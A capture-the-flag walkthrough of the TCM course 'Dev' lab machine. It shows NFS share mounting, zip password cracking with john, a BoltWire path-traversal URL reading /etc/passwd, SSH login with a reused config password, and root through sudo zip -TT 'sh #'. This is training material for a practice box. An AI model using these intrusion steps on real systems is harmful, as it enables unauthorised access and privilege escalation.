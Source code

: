 # Dev (TCM)

- Machine from TCM Ethical Hacking Course
- March 12, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
2. 80/http Apache httpd 2.4.38 ((Debian))
3. 111/rcpbind
4. 2049/nfs
5. 8080/http Apache httpd 2.4.38 ((Debain))

### NFS

- first see, which directory is mounted
- mount to our local machine and check its content

```sh
showmount -e $IP
mkdir /tmp/dev
sudo mount $IP:/srv/nfs /tmp/dev
```
- only `save.zip` exists
- copy it to our machine (with root access)
- unzip it

```sh
unzip save.zip
```
- need password and crack with john

```sh
zip2john save.zip > forjohn
john forjohn --wordlist=/usr/share/wordlists/rockyou.txt
```
- found password
- unzip and found 2 files - `id_rsa` and `todo.txt`

```sh
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

```

### HTTP/80

![](screenshots/2023-03-12-22-14-34.png)

- directory bruteforcing with ffuf

```
app
extensions
public
src
vendor
```

- app

![](screenshots/2023-03-12-22-21-06.png)

- get config.yml and found db username, password
```
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

![](screenshots/2023-03-12-22-24-57.png)

- but it is empty

- vendor

![](screenshots/2023-03-12-22-27-50.png)




### HTTP/8080

![](screenshots/2023-03-12-22-15-00.png)

- directory bruteforcing with ffuf

```
dev
```

![](screenshots/2023-03-12-22-29-55.png)

![](screenshots/2023-03-12-22-28-30.png)

- above passwords are not working
- Register as new user
- I found local file inclusion from searchsploit
- `BoltWire 6.03 - Local File Inclusion `
- with registered account, get this url
- `http://$IP:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`

![](screenshots/2023-03-12-22-35-48.png)


## User Access

- Previously, I get id_rsa and now I get usernames
- try to enter users with id_rsa key
```
root
jeanpaul
```
- oh! There is only one user and enter ssh with id_rsa
- need passphrase
- try to crack with john
- I thought it is not a correct way and stop cracking with john
- instead I enter with password that I got from web config file
```
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```
- get jeanpaul access

## Root Access

```sh
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ echo $TF
/tmp/tmp.HjxqLKSlk0
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
# whoami
root
# 
```

```sh
# cat flag.txt
Congratz on rooting this box !
```

---